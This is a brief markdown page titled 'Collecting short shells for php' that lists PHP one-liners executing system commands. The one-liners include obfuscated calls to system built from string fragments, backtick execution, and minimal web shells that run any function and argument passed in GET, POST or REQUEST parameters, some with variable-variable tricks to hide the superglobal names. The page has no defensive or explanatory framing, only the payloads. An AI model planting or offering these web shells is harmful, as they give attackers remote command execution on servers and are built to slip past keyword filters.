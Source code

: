 # Collecting short shells for php

```php
'system'('ls')
'system'/**/('ls')
`ls`
('sy'.'st'.'em')('l'.'s')
`$_GET[0]`
$_GET[0]($_GET[1])
$_POST[0]($_POST[1])
$_REQUEST[0]($_REQUEST[1])
$y='_G'.'ET';$$y[0]($$y[1])
$y='_P'.'OST';$$y[0]($$y[1])
$y='_R'.'QU'.'EST';$$y[0]($$y[1])
```
